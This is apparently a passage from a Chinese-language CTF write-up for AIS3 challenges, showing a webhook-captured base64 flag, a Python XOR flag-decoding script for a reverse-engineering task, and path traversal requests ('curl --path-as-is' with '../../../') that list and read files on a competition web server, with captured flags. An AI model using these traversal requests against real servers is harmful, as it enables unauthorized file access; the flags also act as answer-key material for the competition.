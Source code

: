Webhook 取得資料 `QUlTM3tZb3VfQXIzX3MwX2Y0cjNkX1RoNHRfeTB1X2M0bl81ZWVfdGgzXzVlY3JlN30=`

Flag: `AIS3{You_Ar3_s0_f4r3d_Th4t_y0u_c4n_5ee_th3_5ecre7}`

## Reverse

### AIS3 Tiny Server - Reverse

Solves: 164/389\
Author: pwn2ooown

把 Ghidra 打開把 看起來像是 Flag Checker 的部分丟給 ChatGPT（GPT-4o btw）拿到了以下的解題腳本：

```python
cipher = [
    0x33, 0x20, 0x38, 0x58, 0x12, 0x28, 0x5c, 0x47, 0x29, 0x52, 0x2d, 0x0f, 0x5a,
    0x0a, 0x0e, 0x00, 0x0f, 0x58, 0x13, 0x50, 0x19, 0x5a, 0x19, 0x34, 0x58, 0x31,
    0x33, 0x43, 0x13, 0x41, 0x04, 0x5a, 0x19, 0x34, 0x58, 0x2c, 0x33, 0x53, 0x46,
    0x03, 0x1e, 0x48, 0x4a, 0x4a, 0x14
]
key = b"rikki_l0v3"
flag = []

bVar5 = 0x33
for i in range(0x2d):
    bVar1 = key[i % len(key)]
    decoded_byte = bVar1 ^ bVar5
    flag.append(decoded_byte)
    if i + 1 < len(cipher):
        bVar5 = cipher[i + 1]

print("Flag:", bytes(flag).decode())
```

Flag: `AIS3{w0w_a_f1ag_check3r_1n_serv3r_1s_c00l!!!}`

## Misc

### AIS3 Tiny Server - Web / Misc

Solves: 147/389\
Author: pwn2ooown

來自 [7890/tiny-web-server](https://github.com/7890/tiny-web-server)，用 C 寫的 web server。\
試試看點點斜：

```bash
curl --path-as-is "http://chals1.ais3.org:20899/../../../"
<html><head><style>body{font-family: monospace; font-size: 13px;}td {padding: 1.5px 6px;}</style></head><body><table>
<tr><td><a href="readable_flag_mbKKyj6z2pTclfi9stKJd3tCvjxkRuf9">readable_flag_mbKKyj6z2pTclfi9stKJd3tCvjxkRuf9</a></td><td>2025-05-25 12:47</td><td>54</td></tr>
<tr><td><a href=".dockerenv">.dockerenv</a></td><td>2025-05-25 12:47</td><td>0</td></tr>
</table></body></html>
curl --path-as-is "http://chals1.ais3.org:20899/../../../readable_flag_mbKKyj6z2pTclfi9stKJd3tCvjxkRuf9"
AIS3{tInY_WeB_SeRveR_WiTH_fIl3_BrOWs1n9_45_@_featuRe}
```
